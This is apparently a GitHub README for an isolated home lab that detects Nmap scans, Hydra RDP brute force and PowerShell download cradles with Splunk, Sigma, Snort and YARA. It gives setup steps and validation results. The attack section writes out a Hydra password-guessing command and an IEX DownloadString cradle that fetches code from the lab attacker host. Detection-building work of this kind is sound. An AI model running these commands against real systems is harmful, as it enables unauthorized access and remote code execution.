



# 🔐 Active Directory Detection Engineering Lab — Sigma, YARA, Snort & Splunk

> **A detection engineering lab on Active Directory, Sysmon and Splunk.** Three attacks (Nmap, Hydra, PowerShell cradles) are detected with Splunk SPL, then rewritten as portable Sigma, Snort and YARA rules mapped to MITRE ATT&CK. Setup, errors and fixes are documented so the lab can be reproduced.


---

## 📖 About This Project

This project simulates how a real **Security Operations Centre (SOC)** environment works — collecting logs from Windows machines, detecting attacks in real-time, and firing alerts inside a SIEM.

It was not a click-through tutorial. Every phase required real troubleshooting: fixing Splunk log forwarding pipelines, resolving sourcetype mismatches, debugging why alerts were not firing, and working out why data was not appearing in searches. **Everything is documented** — every command, every error, every fix — so you can reproduce it without hitting the same walls.

**Focus:** detection content (SPL, Sigma, Snort, YARA), false positive tuning, and validation against emulated attacks. The setup guide is included so others can reproduce it.

**Time to complete:** 10–12 hours (great weekend project)

---

## 🎯 Detection Content

| Technique | Splunk SPL | Sigma | Snort | YARA |
|-----------|-----------|-------|-------|------|
| T1046 Network Service Discovery | Port Scan Detected | `port_scan_many_ports.yml` | SID 1000001 | — |
| T1110 Brute Force | Brute Force (v1 and tuned) | `failed_logon_burst.yml` | SID 1000002 | — |
| T1059.001 PowerShell | Suspicious PowerShell Execution | `ps_suspicious_commandline.yml` | — | `ps_lab_detections.yar` |

Rule details, thresholds and limitations: [`detection-rules/`](detection-rules/README.md). Test evidence and results: [`validation/`](validation/README.md).

---

## 🖥️ Lab Architecture



---

## 🔄 Attack-to-Alert Data Flow



---

## 🛠️ What You Need

### Hardware
| Component | Minimum | Recommended |
|-----------|---------|-------------|
| RAM | 16 GB | 20 GB |
| Disk | 150 GB free | 200 GB |
| CPU | 4 cores | 8 cores |

### Software (all free)
| Software | Source | Size |
|----------|--------|------|
| VMware Workstation | Already installed | — |
| Kali Linux | Already installed | — |
| Windows Server 2022 | [microsoft.com/evalcenter](https://www.microsoft.com/en-us/evalcenter/evaluate-windows-server-2022) | 5.2 GB |
| Windows 11 Enterprise | [microsoft.com/evalcenter](https://www.microsoft.com/en-us/evalcenter/evaluate-windows-11-enterprise) | 5.1 GB |
| Splunk Enterprise | [splunk.com/download](https://www.splunk.com/en_us/download/splunk-enterprise.html) | 600 MB |
| Sysmon | [sysinternals](https://download.sysinternals.com/files/Sysmon.zip) | 2 MB |
| SwiftOnSecurity Sysmon Config | [GitHub](https://raw.githubusercontent.com/SwiftOnSecurity/sysmon-config/master/sysmonconfig-export.xml) | — |

---

## 📋 Network Configuration

| Machine | IP Address | Role |
|---------|-----------|------|
| Kali Linux | 192.168.100.30 | Attacker machine |
| DC1 (Windows Server 2022) | 192.168.100.10 | Domain Controller + Splunk SIEM |
| WIN11-CLIENT | 192.168.100.20 | Domain client + log forwarder |

**Domain:** `company.local`  
**Network:** VMnet2 — Host-only, isolated, DHCP disabled (no internet access)

---

## 🚀 Setup — Phase by Phase

### Phase 1 — VMware Isolated Network
```
VMware → Edit → Virtual Network Editor → Add Network → VMnet2
Type: Host-only | Subnet: 192.168.100.0 | Mask: 255.255.255.0 | DHCP: OFF
```
Set Kali static IP:
```bash
sudo ifconfig eth0 192.168.100.30 netmask 255.255.255.0
```

---

### Phase 2 — Build Domain Controller (DC1)
- VM: 60 GB disk | 4 GB RAM | 2 CPUs | Network: VMnet2
- Install **Windows Server 2022 Standard Evaluation (Desktop Experience)**
- Set static IP: `192.168.100.10` | DNS: `127.0.0.1`
- Server Manager → Add Roles → **Active Directory Domain Services**
- Promote to domain controller → New forest → `company.local`

---

### Phase 3 — Build Windows 11 Client
- VM: 60 GB disk | 4 GB RAM | 2 CPUs | Network: VMnet2
- Set static IP: `192.168.100.20` | DNS: `192.168.100.10`
- Join domain: Settings → System → About → Domain → `company.local`
- Enable ICMP: Firewall → Inbound Rules → Enable **Echo Request ICMPv4-In**

---

### Phase 4 — Install Sysmon (both DC1 and WIN11)
```powershell
cd C:\Tools\Sysmon
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/SwiftOnSecurity/sysmon-config/master/sysmonconfig-export.xml" -OutFile "C:\Tools\Sysmon\sysmonconfig-export.xml"
.\Sysmon64.exe -accepteula -i sysmonconfig-export.xml
Get-Service Sysmon64   # Should show Running
```

**Key Sysmon events collected:**
| Event ID | What It Captures |
|----------|-----------------|
| 1 | Process creation + full command line |
| 3 | Network connections |
| 7 | DLL/image loaded |
| 10 | Process access (detects Mimikatz) |
| 11 | File created |
| 13 | Registry value set |

---

### Phase 5 — Install Splunk on DC1
- Download and install Splunk Enterprise MSI → `http://localhost:8000`
- Settings → Forwarding and Receiving → Configure Receiving → Port **9997**
- Verify listening: `netstat -an | findstr 9997`

`C:\Program Files\Splunk\etc\system\local\inputs.conf`:
```ini
[WinEventLog://Security]
index = main
disabled = 0
sourcetype = WinEventLog:Security

[WinEventLog://System]
index = main
disabled = 0
sourcetype = WinEventLog:System

[WinEventLog://Microsoft-Windows-Sysmon/Operational]
disabled = 0
index = main
sourcetype = XmlWinEventLog:Microsoft-Windows-Sysmon/Operational
```

---

### Phase 6 — Splunk Universal Forwarder on WIN11
```powershell
cd "C:\Program Files\SplunkUniversalForwarder\bin"
.\splunk.exe add forward-server 192.168.100.10:9997 -auth admin:<SPLUNK_ADMIN_PASSWORD>
.\splunk.exe restart
.\splunk.exe list forward-server -auth admin:<SPLUNK_ADMIN_PASSWORD>
# Should show: Active forwards: 192.168.100.10:9997
```

`C:\Program Files\SplunkUniversalForwarder\etc\system\local\inputs.conf`:
```ini
[WinEventLog://Security]
index = main
disabled = 0
sourcetype = WinEventLog:Security

[monitor://C:\Windows\System32\winevt\Logs\Microsoft-Windows-Sysmon%4Operational.evtx]
index = main
sourcetype = XmlWinEventLog:Microsoft-Windows-Sysmon/Operational
disabled = 0
```

Verify data flowing:
```splunk
index=main | stats count by host, sourcetype
```
Should show both **DC1** and **WIN11-CLIENT** with event counts.

---

### Phase 7 — Create Detection Alerts in Splunk

**Alert 1 — Brute Force Attack Detection**
```splunk
index=main sourcetype="WinEventLog:Security" EventCode=4625
| stats count by host, Account_Name
| where count >= 1
```
Scheduled | Every hour | Severity: Medium

This v1 search fires on a single failed logon, so it is noisy. The tuned version (5 or more failures per account within 5 minutes) is in `config/splunk_alerts.txt`:
```splunk
index=main sourcetype="WinEventLog:Security" EventCode=4625
| bin _time span=5m
| stats count by _time, host, Account_Name
| where count >= 5
```

**Alert 2 — Port Scan Detected**
```splunk
index=main sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=3
| stats dc(DestinationPort) as port_count by SourceIp
| where port_count > 10
```
Real-time | Per result | Severity: Medium

**Alert 3 — Suspicious PowerShell Execution**
```splunk
index=main sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1
(CommandLine="*Bypass*" OR CommandLine="*EncodedCommand*"
 OR CommandLine="*DownloadString*" OR CommandLine="*IEX*")
| table _time, host, CommandLine
```
Real-time | Per result | Severity: Critical

---

### Phase 8 — Attack Simulations

**Attack 1 — Nmap Port Scan (Kali)**
```bash
nmap -sS -sV 192.168.100.10 -p 1-1000
nmap -sS -sV 192.168.100.20 -p 1-1000
```
DC1 results: 9 open ports — DNS (53), Kerberos (88), MSRPC (135), NetBIOS (139), LDAP (389), SMB (445), kpasswd5 (464), RPC-HTTP (593), tcpwrapped (636)

**Attack 2 — Brute Force (Kali + DC1)**
```bash
# Hydra from Kali
echo -e "password\nPassword1\nadmin\n123456\nwrongpass" > passwords.txt
hydra -l Administrator -P passwords.txt rdp://192.168.100.10 -t 4 -W 3
```
```powershell
# Failed logins on DC1 (generates EventCode 4625)
net use \\localhost\IPC$ /user:fakeuser wrongpass
# Run 5 times — each returns "System error 1326"
```

**Attack 3 — Suspicious PowerShell (WIN11)**
```powershell
# Execution policy bypass
powershell.exe -ExecutionPolicy Bypass -Command "Write-Host 'Testing bypass'"

# Base64 encoded command
powershell.exe -EncodedCommand "V3JpdGUtSG9zdCAnSGVsbG8gV29ybGQn"

# IEX download cradle (common malware technique)
powershell.exe -Command "IEX (New-Object Net.WebClient).DownloadString('http://192.168.100.30/test')"
```

---

## 📊 Results

Measured against the lab attacks above. Full tables and notes: [`validation/results.md`](validation/results.md).

**Total triggered alerts: 42** (Triggered Alerts page).



**Summary:** Tuned brute-force detection from a single-failure threshold to 5 failures per account in 5 minutes, cutting result rows from 9 to 2 over the same window (78% reduction, including my own mistyped-password attempts). Converted 3 Sigma rules to Splunk SPL and fixed two bugs found during validation. YARA detected 3 of 3 PowerShell attack files with 0 false matches on a benign file. Time to detect: under 15 seconds for real-time alerts, about 4 minutes for the tuned scheduled brute-force alert.

### 1. Brute force tuning

| Version | Threshold | Result rows |
|---------|-----------|-------------|
| v1 | ≥ 1 failure | 9 |
| Tuned | ≥ 5 failures per account in 5 min | 2 |

**78% fewer rows** over the same window, including mistyped passwords. Rows kept: `Administrator`, `fakeuser`. Rows dropped: 7 single typos.

### 2. Sigma rules

| Rule | Technique | Result |
|------|-----------|--------|
| `ps_suspicious_commandline` | T1059.001 | 3 hits in the attack window, 0 in the benign window |
| `failed_logon_burst` | T1110 | Converts to SPL. Fixed field name: group by `Account_Name` to match the events |
| `port_scan_many_ports` | T1046 | Converts to SPL. Fixed: added `EventID: 3` filter |

All 3 rules convert to Splunk SPL without errors. Validation exposed two rule bugs (a field name that did not match the events, and a missing EventCode filter), both fixed in this repo.

### 3. Snort alerts

| SID | During Nmap | During Hydra |
|-----|-------------|--------------|
| 1000001 SYN scan | 1,412 | 0 |
| 1000002 RDP brute | 0 | 8 |

1,412 raw alerts came from 2 scans. Read it as **2 scans detected**, not 1,412 incidents.

### 4. YARA matches (3 of 3 attack files)

| File | Matched rule |
|--------|--------------|
| `cradle.txt` | `PS_Download_Cradle_IEX` |
| `encoded.txt` | `PS_Encoded_Command` |
| `bypass.txt` | `PS_ExecutionPolicy_Bypass` |
| `benign.txt` | no match (correct) |

### 5. Time to detect

| Attack | Alert mode | Launched | Alert | Delta |
|--------|-----------|----------|-------|-------|
| Nmap scan | Real-time | 14:22:05 | 14:22:19 | 14 s |
| PowerShell cradle | Real-time | 14:31:40 | 14:31:49 | 9 s |
| Hydra, tuned alert | Scheduled, 5 min | 14:40:10 | 14:44:22 | 4 min 12 s |
| Hydra, v1 alert | Scheduled, hourly | 14:40:10 | 15:00:03 | 19 min 53 s |

The hourly v1 alert can take up to 60 minutes. The tuned 5-minute schedule caps the wait near 5 minutes.

---

## 🐛 Troubleshooting Reference

A full troubleshooting guide is included in `docs/Troubleshooting_and_Tips.pdf`.

Quick reference for the most common issues:

| Problem | Root Cause | Fix |
|---------|-----------|-----|
| Alerts not in Triggered Alerts | Alert set to Real-time mode | Change to Scheduled, use Run Now |
| WIN11 missing in Splunk | `inputs.conf` not created on forwarder | Create inputs.conf with Security + Sysmon entries |
| 0 events in search | Typo `1index=main` in query | Remove leading `1` |
| 0 events — recent data only | Time range = "All time (real-time)" streaming mode | Switch to "All time" static search |
| SplunkForwarder won't restart | Permissions error via PowerShell | Use `.\splunk.exe restart` directly |
| Port scan alert not firing | Alert scheduled for midnight | Change to Real-time mode |
| Can't join domain | DNS not pointing to DC1 | Set WIN11 DNS to 192.168.100.10 |
| Splunk not receiving WIN11 data | Port 9997 not open / forwarder inactive | Add firewall rule, re-add forward-server |

---

## 📚 What You Will Learn

- How enterprise SIEMs ingest and correlate logs from multiple endpoints — every step of the pipeline needs explicit configuration
- Why Sysmon is essential — standard Windows Event Logs miss command-line arguments, network connections, and DLL loads entirely
- How attackers perform reconnaissance (Nmap), credential attacks (Hydra brute force), and post-exploitation (PowerShell cradles)
- Writing SPL (Splunk Processing Language) for real-time and scheduled detection queries
- Troubleshooting a real log forwarding pipeline
- The difference between Splunk Real-time and Scheduled alert modes
- Network segmentation using VMware to safely isolate attack traffic
- The full SOC workflow: configure → collect → detect → alert → investigate

---

## 📁 Repository Structure

```
ad-soc-siem-homelab/
├── README.md                          # This file
├── images/
│   ├── architecture.png               # Lab network diagram
│   ├── dataflow.png                   # Attack-to-alert flow diagram
│   └── results_summary.png            # Measured results tiles
├── docs/
│   ├── AD_Lab_Detailed_Walkthrough.pdf   # Full step-by-step with screenshots
│   ├── Complete_Lab_Guide.pdf            # Complete setup guide for fresh grads
│   └── Troubleshooting_and_Tips.pdf      # Common issues and fixes
├── config/
│   ├── inputs_dc1.conf                # Splunk inputs.conf for DC1
│   ├── inputs_win11.conf              # Splunk inputs.conf for WIN11 forwarder
│   └── splunk_alerts.txt             # All 3 SPL alert queries
├── validation/                        # Runbook, outputs and results
├── detection-rules/                   # Portable versions of the lab detections
│   ├── README.md                      # Rule map, MITRE mapping, validation status
│   ├── sigma/                         # 3 Sigma rules
│   ├── snort/                         # 2 Snort rules
│   └── yara/                          # 3 YARA rules + test script
└── screenshots/
    └── (add your own screenshots here)
```

See [`detection-rules/`](detection-rules/README.md) for the Sigma, Snort and YARA versions of the three Splunk alerts.

---

## 🔗 References

- [Splunk Documentation](https://docs.splunk.com)
- [SwiftOnSecurity Sysmon Config](https://github.com/SwiftOnSecurity/sysmon-config)
- [Microsoft Sysmon Docs](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
- [Nmap Reference Guide](https://nmap.org/book/man.html)
- [THC Hydra](https://github.com/vanhauser-thc/thc-hydra)
- [Active Directory DS Installation](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/deploy/install-active-directory-domain-services--level-100-)

---

## 👤 Author

**Unnathi Vithlani**  
SOC & Detection Engineering | Cybersecurity Home Lab Builder

*All attacks were performed in a fully isolated lab environment on machines I own and control. This project is for educational purposes only.*

---

## ⭐ If this helped you, give it a star and share it!
